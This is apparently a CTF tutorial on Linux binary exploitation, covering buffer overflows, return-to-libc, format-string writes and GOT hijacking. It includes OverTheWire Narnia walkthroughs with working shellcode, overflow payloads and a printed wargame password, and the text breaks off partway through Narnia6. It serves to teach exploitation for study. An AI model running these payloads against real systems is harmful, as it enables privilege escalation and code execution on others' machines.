 *********************************
CTF Series :  Binary Exploitation
*********************************

This post (Work in Progress) lists the tips and tricks while doing Binary Exploitation challenges during various CTF's and Over The Wire Wargame.

**Thanks to superkojiman, barrebas, et0x who helped me learning the concepts.**

Basics
======

Let's start with some basic concepts and then we would see some examples which would help to clear the concepts.

* Big-endian systems store the most significant byte of a word in the smallest address and the least significant byte is stored in the largest address. Little-endian systems, in contrast, store the least significant byte in the smallest address. {% img left /images/big-endian.png 250 250 %} {% img right /images/little-endian.png 250 250 %}

* When you get a binary for exploitation, we need to find whether it is 32-bit or 64-bit ELF, which platform it is running, whether any buffer overflow prevention techniques has been used, what is EIP offset.

 * Executable binary is running on whether x86 or x86-64.

  ::

    uname -a

 * Whether the binary is compiled for 32 bit or 64 bit.

  ::

    file binary_file

 * Multiple Buffer overflow prevention techniques such as RELRO, NoExecute (NX), Stack Canaries, Address Space Layout Randomization (ASLR) and Position Independent Executables (PIE).

  ::

    Address space Layout Randomization     : Kernel
    Executable Stack Protection            : Compiler
    Stack smashing protection              : Compiler
    Position Independent Executables       : Compiler
    Fortify Source                         : Compiler
    Stack Protector                        : Compiler

 * Which buffer overflow prevention techniques are used can be found by running Checksec Script. This script is present in gdb-peda.

 * Whether the stack of binary is executable is not can be found by readelf tool. If Program header GNU\_STACK has RWE flag, if it has E flag, it's executable.

  ::

    narnia8@melinda:~$ readelf -l /narnia/narnia8 | grep GNU_STACK
    GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10

  In order to make the stack executable, the program needs to be compiled with -z execstack option and to disable stack smashing option -fno-stack-protector should be used.

  ::

    gcc -ggdb -m32 -fno-stack-protector -z execstack -o buffer1 buffer1.c


 * Address Space Layout Randomization (ASLR) controlled by /proc/sys/kernel/randomize\_va\_space.

  ::

    Three Values:
    0  : Disable ASLR. This setting is applied if the kernel is booted with the norandmaps boot parameter.
    1  : Randomize the positions of the stack, virtual dynamic shared object (VDSO) page, and shared memory regions. The base address of the data segment is located immediately after the end of the executable code segment.
    2  : Randomize the positions of the stack, VDSO page, shared memory regions, and the data segment. This is the default setting.

  You can change the setting temporarily by writing a new value to /proc/sys/kernel/randomize\_va\_space, for example:

  ::

    echo value > /proc/sys/kernel/randomize_va_space

  To change the value permanently, add the setting to /etc/sysctl.conf, for example:

  ::

    kernel.randomize_va_space = value
    and run the sysctl -p command.

  If you change the value of randomize_va_space, you should test your application stack to ensure that it is compatible with the new setting. If necessary, you can disable ASLR for a specific program and its child processes by using the following command:

  ::

    % setarch `uname -m` -R program [args ...]


 * To know the EIP offset, you can use cyclic patterns. Use pattern_create.rb to create a random pattern which can be used to find the offset and pattern\_offset.rb to find the exact offset.

  ::

    /usr/share/metasploit-framework/tools/pattern_create.rb 200
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

    /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37654136
    [*] Exact match at offset 140


 * Sometimes, you need to know the address of the variable, inorder to write arbitary value in to it. 
   
  :: 

    run gdb <program> p &<variablename>

Buffer overflow
===============

* Either you can put the shellcode on the buffer and then redirect the EIP to NOP Sled followed by the shellcode (provided the shellcode used is correct and the stack is executable).

* However, if the stack is not executable or the shellcode is not working (happens sometimes), then we can either,

 * Export a environment variable with shellcode, find the address of env variable in the stack and then set the return address to starting of the shellcode and get a shell

 * Use return2libc which is a type of ROP: find the address of system function, find the address of "/bin/sh" in the stack and execute it like system("/bin/sh"). It is in the format of 

  ::

    <ADDRofSYSTEM> <4ArbitraryBytes for Return Address> <argument for system[/bin/sh]>

  4Arbitrary Bytes for Return address could be a JUNK address or "\\xCC\\xCC\\xCC\\xCC" or address of exit function.

  If set to

  * \\xCC\\xCC\\xCC\\xCC so after system executes, it tries to return to 0xcccccccc. \\xcc is good just to check if you're actually jumping to your shellcode, but once you've verified that it works, then you should remove it.
  * If a JUNK address is put, the binary will have already executed the shellcode but it will segfault.
  * If the proper address of exit() is used, binary will exit cleanly.

  It's better to use /bin/sh instead of /bin/bash since bash drops privs. If /bin/bash is used, it will launch /bin/bash but you'll find that you haven't elevated your privileges and this can get confusing. so either find another string that points to /bin/sh or set your own env variable like DASH=/bin/sh and reference that. Good paper to review is Bypassing non-executable-stack during Exploitation (return-to-libc).


 * Sometimes you need to put a cat to keep the shell alive
   ::

     (cat input; cat) | ./binary input is the payload you are sending.

* Sometimes we need a shellcode to write a string or for getting a actual shell. A good reference can be found @Introduction to Writing Shellcode. Information about various system call integar value need to be present in EAX register is here Linux System Call Table.

 Let's see a small example where we move an address to eax register and jump to it. Address which we are moving to eax would contain our shellcode.

 ::

   ;test.asm
   [SECTION .text]
   global _start
   _start:
           mov eax, 0xffffd8bc
         jmp eax

 Just good to know: global directive is NASM specific. It is for exporting symbols in your code to where it points in the object code generated. Here you mark \_start symbol global so its name is added in the object code (a.o). The linker (ld) can read that symbol in the object code and its value so it knows where to mark as an entry point in the output executable. When you run the executable it starts at where marked as \_start in the code.

 If a global directive missing for a symbol that symbol will not be placed in the object code's export table so linker has no way of knowing about the symbol. We can compile the asm file by 
 ::

   nasm -f elf test.asm

 link it

 ::

   ld -o test test.o

 If you get the below error
 ::

   ld: i386 architecture of input file `test.o' is incompatible with i386:x86-64 output

 either 

 Use 64 bits instead of 32 for your loader and compile it with the following command:
 ::

   nasm -f elf64 loader.asm -o loader.o

 or 

 If want compile the file as 32 bits composition, you can use:

 ::

   ld -m elf_i386 -s -o file.o file

 To see the byte code 
 ::

   objdump -d <file>


* What we mostly do when exploiting a buffer overflow (when placing the shellcode on stack) is we place our shellcode before EIP, we should also check if we can put our shellcode after EIP. This is particularly useful when some kind of check for shellcode is present in address before EIP. Example: Suppose our EIP is present at offset 80. We would usually do

 ::

   python -c 'print "\x90"*50 + "30 Bytes of ShellCode" + "4 Bytes return address to NOP or shellcode in left"'

 However, if somekind of check for alphanumeric characters is present for first 80 bytes you won't be able to put your shellcode in those 80 bytes. At that point of time you should check if you can overflow post EIP and redirect. For example

 ::

    python -c 'print "A"*80 + "4 Bytes return address to NOP or shellcode in right" + "\x90"*50 + "30 Bytes of ShellCode"'


Format String Vulnerability
===========================

Definition
----------

If an attacker is able to provide the format string to an ANSI C format function in part or as a whole, a format string vulnerability is present. By doing so, the behaviour of the format function is changed, and the attacker may get control over the target application. A format string is an ASCIIZ string that contains text and format parameters. Example:

::

  printf ("The magic number is: %d\n", 1911);

Behaviour of the format function
--------------------------------

The behaviour of the format function is controlled by the format string. The function retrieves the parameters requested by the format string from the stack.

::

  printf ("Number %d has no address, number %d has: %08x\n", i, a, &a);

From within the printf function the stack looks like:

::

   stack top 
   . . . 
   <&a> 
   <a> 
   <i>
    A 
   . . .
   stack bottom

Crashing the Program
--------------------

By utilizing format strings we can easily trigger some invalid pointer access by just supplying a format string like: 

::

  printf ("%s%s%s%s%s%s%s%s%s%s%s%s");

Because ‘%s’ displays memory from an address that is supplied on the stack, where a lot of other data is stored, too, our chances are high to read from an illegal address, which is not mapped.


Viewing the stack
-----------------

How some parts of the stack memory by using a format string like this:

::

  printf ("%08x.%08x.%08x.%08x.%08x\n");

This works, because we instruct the printf-function to retrieve five parameters from the stack and display them as 8-digit padded hexadecimal numbers. So a possible output may look like:

::

  40012980.080628c4.bffff7a4.00000005.08059c04

This is a partial dump of the stack memory, starting from the current bottom upward to the top of the stack — assuming the stack grows towards the low addresses.


Viewing Memory at any location
------------------------------

We can look at memory locations different from the stack memory by providing an address to the format string.

Our format string is usually located on the stack itself, so we already have near to full control over the space, where the format string lies. The format function internally maintains a pointer to the stack location of the current format parameter. If we would be able to get this pointer pointing into a memory space we can control, we can supply an address to the ‘%s’ parameter. To modify the stack pointer we can simply use dummy parameters that will ‘dig’ up the stack by printing junk:

::

  printf ("AAA0AAA1_%08x.%08x.%08x.%08x.%08x");

The ‘%08x’ parameters increase the internal stack pointer of the format function towards the top of the stack. After more or less of this increasing parameters the stack pointer points into our memory: the format string itself. The format function always maintains the lowest stack frame, so if our buffer lies on the stack at all, it lies above the current stack pointer for sure. If we choose the number of ‘%08x’ parameters correctly, we could just display memory from an arbitrary address, by appending ‘%s’ to our string. In our case the address is illegal and would be ‘AAA0’. Lets replace it with a real one. Example:

::

  address = 0x08480110
  address (encoded as 32 bit le string): "\x10\x01\x48\x08" 
  printf ("\x10\x01\x48\x08_%08x.%08x.%08x.%08x.%08x|%s|");

Will dump memory from 0x08480110 until a NUL byte is reached. If we cannot reach the exact format string boundary by using 4-Byte pops (‘%08x’), we have to pad the format string, by prepending one, two or three junk characters. 3 This is analog to the alignment in buffer overflow exploits.


Overwriting of Arbitrary Memory
-------------------------------

There is the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack. But if we supply a correct mapped and writeable address this works and we overwrite four bytes (sizeof (int)) at the address: 

::

  "\xc0\xc8\xff\xbf_%08x.%08x.%08x.%08x.%08x.%n"

The format string above will overwrite four bytes at 0xbfffc8c0 with a small integer number. We have reached one of our goals: we can write to arbitrary addresses. By using a dummy parameter ‘%nu’ we are able to control the counter written by ‘%n’, at least a bit.

Direct Parameter Access
^^^^^^^^^^^^^^^^^^^^^^^

The direct parameter access is controlled by the ‘$' qualifier

::
 
  printf ("%6`\ d:raw-latex:`\n`", 6, 5, 4,3, 2, 1);

Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the stack.

The above text is taken from and a good paper to read for format string is `Exploiting Format String Vulnerabilities`_

 .. _Exploiting Format String Vulnerabilities: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Format_String/files/formatstring-1.2.pdf

Write two bytes
^^^^^^^^^^^^^^^
We can write two bytes by %hn and one byte by %hhn.

Write four bytes
^^^^^^^^^^^^^^^^

How to write four bytes? Suppose we need to write 0x8048706 to the address 0xffffd64c.

::

  HOB:0x0804 LOB:0x8706

  If HOB < LOB

  [addr+2][addr] = \x4e\xd\xff\xff\x4c\xd\xff\xff
  %.[HOB - 8]x = 0x804 - 8 = 7FC (2044) = %.2044x
  %[offset]$hn = %6\$hn 
  %.[LOB - HOB]x = 0x8706 - 0x804 = 7F02 (32514) = %.32514x 
  %[offset+1]`\ hn = %7$hn

  python -c 'print "\x4e\xd6\xff\xff\x4c\xd6\xff\xff" +"%.2044x%6\$hn %.32514x%7\$hn"'

Hijack the Global Offset Table with pointers
--------------------------------------------

**Definition** 

The Global Offset Table redirects position independent address calculations to an absolute location and is located in the .got section of an ELF executable or shared object. It stores the final (absolute) location of a function calls symbol, used in dynamically linked code. When a program requests to use printf() for instance, after the rtld locates the symbol, the location is then relocated in the GOT and allows for the executable via the Procedure Linkage Table, to directly access the symbols location.

When you disassemble main and printf statement is present, you will get like        

::

    0x080484b9 <+60>: call 0x8048330 printf@plt <----PLT

if you further disassemble printf

::
   
    gdb-peda$ pdisass printf 
    Dump of assembler code for function printf@plt:
        0x08048330 <+0>: jmp DWORD PTR ds:0x8049788 <----GOT Address 
        0x08048336 <+6>: push 0x0 
        0x0804833b <+11>: jmp 0x8048320 End of assembler dump.

Further disassembling the address 0x8049788
  
::

   gdb-peda$ pdisass 0x8049788
   Dump of assembler code from 0x8049788 to 0x80497a8:
     0x08049788 <printf@got.plt+0>:   add    DWORD PTR ss:[eax+ecx*1],0x46
     0x0804978d <fgets@got.plt+1>:    add    DWORD PTR [eax+ecx*1],0x56
     0x08049791 <puts@got.plt+1>: add    DWORD PTR [eax+ecx*1],0x66
     0x08049795 <__gmon_start__@got.plt+1>:   add    DWORD PTR [eax+ecx*1],0x76
     0x08049799 <__libc_start_main@got.plt+1>:    add    DWORD PTR [eax+ecx*1],0x0
     0x0804979d <data_start+1>:   add    BYTE PTR [eax],al
     0x0804979f <data_start+3>:   add    BYTE PTR [eax],al
     0x080497a1 <__dso_handle+1>: add    BYTE PTR [eax],al
     0x080497a3 <__dso_handle+3>: add    BYTE PTR [eax],al
     0x080497a5 <stdin@@GLIBC_2.0+1>: add    BYTE PTR [eax],al
     0x080497a7 <stdin@@GLIBC_2.0+3>: add    BYTE PTR [eax],al
   End of assembler dump. 

Objdump reflects the same (notice the +1) GOT address:

::
    
    objdump --dynamic-reloc ./behemoth3 

    ./behemoth3:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049778 R_386_GLOB_DAT    __gmon_start__
    080497a4 R_386_COPY        stdin
    08049788 R_386_JUMP_SLOT   printf
    0804978c R_386_JUMP_SLOT   fgets
    08049790 R_386_JUMP_SLOT   puts
    08049794 R_386_JUMP_SLOT   __gmon_start__
    08049798 R_386_JUMP_SLOT   __libc_start_main


Quick diagram what it looks like:

So a quick diagram of what happens looks kind'a like this:

::

   [printf()] <--------------------------------
      |                                       |
      --------------> [PLT]--->[d_r_resolve]--|
                        |           |         |
                        -------------------->[GOT]<--
                                    |               |
                                     ------->[libc]--


A good paper to read about and from where the definition and diagram is taken is How to Hijack the Global Offset Table with pointers

Buffer Overflow Examples
========================

* Let's see a simple example of binary exploitation Narnia0 where we have to write a written value.

 .. code:: c

   #include <stdio.h>
   #include <stdlib.h>

   int main(){
       long val=0x41414141;
       char buf[20];

       printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
       printf("Here is your chance: ");
       scanf("%24s",&buf);

       printf("buf: %s\n",buf);
       printf("val: 0x%08x\n",val);

       if(val==0xdeadbeef)
           system("/bin/sh");
       else {
           printf("WAY OFF!!!!\n");
           exit(1);
       }

       return 0;
   }

 In this example, value of variable val can be overwritten by overflowing buf. Another small observation is scanf function scans 24 characters. If you directly write 20 "A" and the address it won't work as the val doesn't matches. So, we have to use python print command. If we use 

 .. code:: python

   python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0 

 you will see that the value would match but the shell is exited. To keep the shell active, we need to use cat as shown below:

 ::

   (python -c 'print "A"*20 + "\xef\xbe\xad\xde"';cat) | ./narnia0 


* In another example below Narnia1

 ::

   #include <stdio.h>

   int main(){
       int (*ret)();

       if(getenv("EGG")==NULL){    
           printf("Give me something to execute at the env-variable EGG\n");
           exit(1);
       }

       printf("Trying to execute EGG!\n");
       ret = getenv("EGG");
       ret();

       return 0;
   }

 We need to set a environment variable EGG with an shellcode. Previously, I tried with

 ::

   export EGG="\bin\sh"
   and 
   export EGG="\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

 Shellcode were taken from the Shellstorm website. However, both failed with Segmentation fault. superkojiman, barrebas helped me with and told that if I write

 ::

   export EGG=`python -c 'print "\xCC"'`

 It should sigtrap. "\xCC" acts as a software breakpoint, basically an INT3, It tells you whether your shellcode is stored properly & executed, if the program receives SIGTRAP, you know you're good to go, and it's a good way to make sure you've properly redirected execution to your shellcode. You can further put "\xCC" anywhere in the shellcode, if it crashes before "\xCC", you know for sure that your shellcode has bad characters. They suggested to export the EGG variable as

 ::

   export EGG=`python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 and it worked like a charm.


* In another example Narnia2

 ::

   #include <stdio.h>
   #include <string.h>
   #include <stdlib.h>

   int main(int argc, char * argv[]){
       char buf[128];

       if(argc == 1){
           printf("Usage: %s argument\n", argv[0]);
           exit(1);
       }
       strcpy(buf,argv[1]);
       printf("%s", buf);

       return 0;
   }

 It's to easy that buffer overflow vulnerability exists because of strcpy. Let's see what is the offset for this.

 ::

   ulimit -c unlimited
   ./narnia2 `/usr/share/metasploit-framework/tools/pattern_create.rb 200`
   Segmentation fault (core dumped)

   gdb -q -c core ./narnia2
   #0  0x37654136 in ?? ()

   /usr/share/metasploit-framework/tools/pattern_offset.rb 0x37654136
   [*] Exact match at offset 140
   narnia2@melinda:~$ gdb -q /narnia/narnia2
   (gdb) disassemble main 
   Dump of assembler code for function main:
   **Snip**
      0x080484a0 <+67>:    mov    %eax,(%esp)
      0x080484a3 <+70>:    call   0x8048320 <strcpy@plt>
   **Snip**
   End of assembler dump.
   (gdb) br *main+70
   Breakpoint 1 at 0x80484a3
   (gdb) run `python -c 'print "A"*140 + "BBBB"'`
   Starting program: /games/narnia/narnia2 `python -c 'print "A"*140 + "BBBB"'`

   Breakpoint 1, 0x080484a3 in main ()
   (gdb) n
   0x42424242 in ?? ()

 Let's see the stack after the strcpy, which would tell us the probable address we want to redirect execution.

 ::

   (gdb) x/80xw $esp+400
   0xffffd7e0: 0x0000000f  0xffffd80b  0x00000000  0x00000000
   0xffffd7f0: 0x00000000  0x00000000  0x1d000000  0xa9c79d1b
   0xffffd800: 0xe1a67367  0xc19fc850  0x6996cde4  0x00363836
   0xffffd810: 0x2f000000  0x656d6167  0x616e2f73  0x61696e72
   0xffffd820: 0x72616e2f  0x3261696e  0x41414100  0x41414141
   0xffffd830: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd840: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd850: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd860: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd870: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd880: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd890: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
   0xffffd8b0: 0x41414141  0x42424241  0x44580042  0x45535f47
   0xffffd8c0: 0x4f495353  0x44495f4e  0x3939383d  0x53003733

 Let pick a shellcode from shellstorm for a Linux x86 execuve /bin/sh and calculate the number of NOPs

 ::

   narnia2@melinda:~$ python -c 'print len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'
   23
   narnia2@melinda:~$ bc    
   140-23
   117
   narnia2@melinda:~$ /narnia/narnia2 `python -c 'print "\x90"*117 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"'`
   $ cat /etc/narnia_pass/narnia3
   **********
   $ 


* In another example Narnia3

 .. code:: c

   #include <stdio.h>
   #include <sys/types.h>
   #include <sys/stat.h>
   #include <fcntl.h>
   #include <unistd.h>
   #include <stdlib.h>
   #include <string.h> 

   int main(int argc, char **argv){
     
           int  ifd,  ofd;
           char ofile[16] = "/dev/null";
           char ifile[32];
           char buf[32];
     
           if(argc != 2){
                   printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                   exit(-1);
           }
     
           /* open files */
           strcpy(ifile, argv[1]);
           if((ofd = open(ofile,O_RDWR)) < 0 ){
                   printf("error opening %s\n", ofile);
                   exit(-1);
           }
           if((ifd = open(ifile, O_RDONLY)) < 0 ){
                   printf("error opening %s\n", ifile);
                   exit(-1);
           }
    
           /* copy from file1 to file2 */
           read(ifd, buf, sizeof(buf)-1);
           write(ofd,buf, sizeof(buf)-1);
           printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
     
           /* close 'em */
           close(ifd);
           close(ofd);
    
           exit(1);
   }

 Superkojiman notes explain this best, copied here with permission, thanks superkojiman :)

 ::

   narnia3@melissa:/narnia$ ./narnia3 /etc/motd
   copied contents of /etc/motd to a safer place... (/dev/null)

 We can use this program to read the contents of /etc/narnia\_pass/narnia4, but the output is written to /dev/null. We control the input file and the output file is set as /dev/null. However, because of the way the stack is laid out, we can write past the ifile buffer and overwrite the value of ofile. This lets us replace /dev/null with another file of our choosing. Here's what the stack looks like:

 ::

   +---------+
   |  ret    |
   |  sfp    |
   |  ofd    |
   |  ifd    |
   |  ofile  |
   |  ifile  |
   |  buf    |
   +---------+ <- esp

 ifile and ofile are 32-byte arrays. We can compile the program with -ggdb and examine it in gdb 

 ::

   # gcc -ggdb -m32 -fno-stack-protector -Wl,-z,norelro narnia3.c -o narnia3
   # gdb -q narnia3

 If we disas main, we can see that strcpy is called at \*main+100:

 ::

      0x08048551 <+93>:    lea    0x38(%esp),%eax
      0x08048555 <+97>:    mov    %eax,(%esp)
      0x08048558 <+100>:   call   0x8048400 <strcpy@plt>
      0x0804855d <+105>:   movl   $0x2,0x4(%esp)
      0x08048565 <+113>:   lea    0x58(%esp),%eax
      0x08048569 <+117>:   mov    %eax,(%esp)

 We set a breakpoint there and run the program with the following arguments:

 ::

   (gdb) r `python -c 'print "A"*32 + "/tmp/hack"'`
   Starting program: /root/wargames/narnia/3/narnia3 `python -c 'print "A"*32 + "/tmp/hack"'`

   Breakpoint 1, 0x08048558 in main (argc=2, argv=0xbffff954) at narnia3.c:37
   37          strcpy(ifile, argv[1]);


 At the first breakpoint, we examine the local variables

 ::

   (gdb) i locals
   ifd = 134514299
   ofd = -1208180748
   ofile = "/dev/null\000\000\000\000\000\000"
   ifile = "x\370\377\277\234\203\004\b\200\020\377\267\214\230\004\b\250\370\377\277\211\206\004\b$\243\374\267\364\237", <incomplete sequence \374\267>
   buf = "\370\370\377\267\364\237\374\267\371\234\367\267\245B\352\267h\370\377\277չ\350\267\364\237\374\267\214\230\004\b"

 ofile is set to /dev/null as expected. We'll step to the next instruction and check again.
 ::

   (gdb) s
   38          if((ofd = open(ofile,O_RDWR)) < 0 ){
   (gdb) i locals
   ifd = 134514299
   ofd = -1208180748
   ofile = "/tmp/hack\000\000\000\000\000\000"
   ifile = 'A' <repeats 32 times>
   buf = "\370\370\377\267\364\237\374\267\371\234\367\267\245B\352\267h\370\377\277չ\350\267\364\237\374\267\214\230\004\b"

  As expected, ofile has been overwritten to /tmp/hack. However ifile is now AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack so in order to read /etc/narnia_pass/narnia4, we need to create a directory AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp and symlink /etc/narnia_pass/narnia4 to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack

 ::

   narnia3@melissa:/tmp/skojiman3$ mkdir -p AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp
   narnia3@melissa:/tmp/skojiman3$ ln -s /etc/narnia_pass/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack

 Next we need to create the output file /tmp/hack that ofile points to
 
 ::
  
   narnia3@melissa:/tmp/skojiman3$ touch /tmp/hack
   narnia3@melissa:/tmp/skojiman3$ chmod 666 /tmp/hack
   narnia3@melissa:/tmp/skojiman3$ ls -l /tmp/hack
   -rw-rw-rw- 1 narnia3 narnia3 0 2012-11-24 22:58 /tmp/hack

 Finally, execute /narnia/narnia3 as follows:

 ::

   narnia3@melissa:/tmp/skojiman3$ /narnia/narnia3 `python -c 'print "A"*32 + "/tmp/hack"'`
   copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/hack to a safer place... (/tmp/hack)
   narnia3@melissa:/tmp/skojiman3$ cat /tmp/hack
   thaenohtai
   ��*������e���@�narnia3@melissa:/tmp/skojiman3$


* Let's see another example Narnia6.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    extern char **environ;

    // tired of fixing values...
    // - morla
    unsigned long get_sp(void) {
           __asm__("movl %esp,%eax\n\t"
                   "and $0xff000000, %eax"
                   );
    }

    int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
            memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
            memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
            exit(-1);
        fp(b1);

        exit(1);
    }

 Stack is not executable for this binary. This binary is an example of “return-to-libc” attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, rendering the NX bit feature useless (if present) and ridding the attacker of the need to inject their own code.

 ::

   gdb -q narnia6
   Reading symbols from /home/bitvijays/narnia6...(no debugging symbols found)...done.
   gdb-peda$ checksec 
   CANARY    : disabled
   FORTIFY   : disabled
   NX        : ENABLED
   PIE       : disabled
   RELRO     : disabled
   gdb-peda$ 

 Let's compile the source on the local and check what happens:

 ::

   gcc -m32 -ggdb -fno-stack-protector -Wall narnia6.c -o narnia61

 If you see carefully, we passed A\ *8 + BBBB + " " + "C"*\ 8 + DDDD, which resulted in

 ::

   gdb -q ./narnia61
   gdb-peda$ pdisass main
   Dump of assembler code for function main:
      0x080486d2 <+330>:   call   0x8048450 <exit@plt>
      0x080486d7 <+335>:   lea    eax,[esp+0x20]
      0x080486db <+339>:   mov    DWORD PTR [esp],eax
      0x080486de <+342>:   mov    eax,DWORD PTR [esp+0x28]
      0x080486e2 <+346>:   call   eax
      0x080486e4 <+348>:   mov    DWORD PTR [esp],0x1
      0x080486eb <+355>:   call   0x8048450 <exit@plt>
   End of assembler dump.
   gdb-peda$ br *main+346
   Breakpoint 1 at 0x80486e2: file narnia6.c, line 48.
